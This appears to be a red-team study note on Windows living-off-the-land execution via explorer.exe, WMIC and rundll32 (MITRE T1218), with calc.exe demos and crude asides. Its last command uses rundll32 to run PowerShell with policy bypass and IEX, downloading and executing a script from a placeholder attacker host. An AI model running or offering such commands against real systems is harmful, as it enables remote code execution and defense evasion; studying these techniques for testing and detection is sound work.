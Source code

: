 ## Table of Contents

    - [**Signed Binary Proxy Execution** or **Indirect Command Execution**](#**Signed\Binary Proxy Execution** or **Indirect\Command\Execution**)
          - [To creata a chile process of explorer.exe as (parent). Execute the following:](#To\creata\a\chile\process\of\explorer.exe\as\(parent).\Execute\the\following:)
- [WMIC #windows #WMIC](#wmic\#windows\#wmic)
- [Rundll32 #rundll32 #windows #LoL #bypass #execution](#rundll32\#rundll32\#windows\#lol\#bypass\#execution)

#payload
#exiltrate 
#execution
#bypass
#iex
#LoL
#LivingOffTheLand 
#windows 
#WMIC 
### **Signed Binary Proxy Execution** or **Indirect Command Execution**
	Attacker leverages other system tools to spawn payloads to evade defensive controls
The explorer.exe binary is located at:  

- C:\Windows\explorer.exe
###### To creata a chile process of explorer.exe as (parent). Execute the following:
```powershell
C:\Users\Autist> explorer.exe /root,"C:\Windows\System32\calc.exe"
```
	calc pop gg get fucked #1337




# WMIC #windows #WMIC
	Command line util that manages windows components

The MITRE ATT&CK framework refers to this technique as Signed Binary Proxy Execution ([T1218](https://attack.mitre.org/techniques/T1218/))

Command Prompt

```powershell
C:\Users\thm> . . . \
wmic.exe process call create calc
Executing (Win32_Process)->Create()
Method execution successful.
Out Parameters:
instance of __PARAMETERS
{
        ProcessId = 1740;
        ReturnValue = 0;
};
C:\Users\thm>
```

The previous WMIC command creates a new process of a binary of our choice, which in this case calc.exe.


# Rundll32 #rundll32 #windows #LoL #bypass #execution 

Rundll32 is a Microsoft built-in tool that loads and runs Dynamic Link Library DLL files within the operating system. A red team can abuse and leverage rundll32.exe to run arbitrary payloads and execute JavaScript and PowerShell scripts. The MITRE ATT&CK framework identifies this as **Signed Binary Proxy Execution: Rundll32** and refers to it as [T1218](https://attack.mitre.org/techniques/T1218/011/).

Located at:
```powershell
C:\Windows\System32\rundll32.exe for 32-bit Version
C:\Windows\SysWOW64\rundll32.exe for 64-bit Version
```

Ex:
```powershell
C:\Users\thm> . . . \
rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");
\
```
	Uses embedded Javascript componenet eval() to execute the calc.exe binary

As we mentioned previously, we can also execute PowerShell scripts using the rundll32.exe. The following command runs a JavaScript that executes a PowerShell script to download from a remote website using rundll32.exe.

Command Prompt

```shell-session
C:\Users\thm> rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://AttackBox_IP/script.ps1');");
```




















